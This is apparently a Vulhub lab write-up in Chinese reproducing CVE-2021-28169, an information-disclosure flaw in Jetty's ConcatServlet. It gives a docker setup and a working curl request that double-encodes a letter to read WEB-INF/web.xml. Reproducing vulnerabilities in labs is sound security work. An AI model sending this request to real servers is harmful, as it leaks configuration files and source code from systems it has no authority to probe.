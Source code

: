 # Jetty 通用 Servlets 组件 ConcatServlet 信息泄露漏洞 CVE-2021-28169

## 漏洞描述

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境，而Jetty Servlets是Jetty提供给开发者的一些通用组件。

在9.4.40, 10.0.2, 11.0.2版本前，Jetty Servlets中的`ConcatServlet`、`WelcomeFilter`类存在多重解码问题，如果开发者主动使用了这两个类，攻击者可以利用其访问WEB-INF目录下的敏感文件，造成配置文件及代码泄露。

参考链接：

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-gwcr-j4wh-j3cq

## 环境搭建

Vulhub执行如下命令启动一个Jetty 9.4.40服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到一个example页面。该页面使用到了`ConcatServlet`来优化静态文件的加载：

```
<link rel="stylesheet" href="/static?/css/base.css&/css/app.css">
```

![image-20220224164457554](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241652563.png)

## 漏洞复现

正常通过`/static?/WEB-INF/web.xml`无法访问到敏感文件web.xml：

![image-20220224165314273](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241653506.png)

对字母`W`进行双URL编码，即可绕过限制访问web.xml：

```
curl -v 'http://your-ip:8080/static?/%2557EB-INF/web.xml'
```

![image-20220224165357342](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241653568.png)
